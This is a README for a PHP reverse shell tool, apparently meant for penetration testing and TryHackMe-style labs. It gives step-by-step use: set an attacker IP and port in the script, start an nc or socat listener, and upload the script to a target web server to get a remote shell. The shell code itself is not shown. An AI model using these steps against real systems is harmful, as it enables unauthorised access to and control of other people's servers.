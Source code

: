# PHP Reverse Shell

This is an easy-to-use PHP script that helps you get a command-line interface (a "shell") on a remote computer.


## What It Does

* **Full Control:** Gives you a real command-line on the remote computer, so you can type commands just like you normally would.
* **Smart Setup:** It handles all the complex parts of getting the shell to work correctly in your terminal.
* **Works Reliably:** It tries different ways to run commands, so it's more likely to work on various systems.
* **Quick to Use:** Designed for fast setup and deployment.

## What You Need

* **On the Remote Computer:**
    * PHP installed.
    * The `proc_open()` function **must be turned on** in PHP's settings (`php.ini`). This is essential for the script to work.
* **On Your Computer:**
    * A program like `netcat` (`nc`) or `socat` to "listen" for the connection.


## How to Use It

1.  **Change the Script:**
    Open the PHP script (you can name it `shell.php`) and find the line at the very bottom that looks like this:

    ```php
    InitShell('IP', PORT);
    ```
    Replace `'IP'` with your computer's IP address and `'PORT'` with a port number you choose (e.g., `4444`).

    *Example: `InitShell('10.10.14.5', 4444);`*

2.  **Start Listening:**
    On your computer, open a terminal (command prompt) and start your listener:

    ```bash
    # Best option
    socat file:`tty`,raw,echo=0 tcp-listen:PORT

    # A simpler option if socat isn't available
    nc -lvnp PORT
    ```

3.  **Run It on the Remote Computer:**
    Upload your modified `shell.php` script to the remote computer.
    **If it's on a website:** Just visit it's web address in a browser (e.g., `http://example-site.com/shell.php`).

4.  **You're Connected!**
    Your listener should show a new connection, and you'll have a working command-line from the remote computer.



## CAUTION!

* **Use Responsibly:** This tool is for learning and testing **only**. Never use it on computers you don't own or don't have permission to access. Doing so is illegal.
* **`proc_open()` is a Must:** If the shell doesn't connect, the most common reason is that the `proc_open()` function is turned off in the remote computer's PHP settings.


## Credits

* **Written by:** santeri@bittisilta.fi
* **Website:** [https://bittisilta.fi](https://bittisilta.fi)
[![TryHackMe Badge](https://tryhackme-badges.s3.amazonaws.com/santeri1337.png)](https://tryhackme.com/p/santeri1337)
* **GitHub:** [https://github.com/santeri1337](https://github.com/santeri1337)
